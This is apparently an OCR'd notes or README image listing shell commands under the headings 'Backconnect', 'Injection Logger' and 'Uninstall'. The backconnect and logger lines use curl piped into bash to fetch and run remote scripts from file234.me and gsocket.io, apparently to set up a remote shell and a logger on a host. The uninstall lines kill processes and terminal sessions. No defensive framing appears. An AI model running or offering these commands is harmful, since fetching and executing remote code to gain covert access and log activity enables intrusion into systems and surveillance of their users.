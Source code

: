Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Injection Logger
======================
- bash -c "$(curl -fsSL https://file234.me/self)"
- GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/y)"

Uninstall
=====================
- pkill defunct
- kill -KILL PID
- pkill -t pts/0
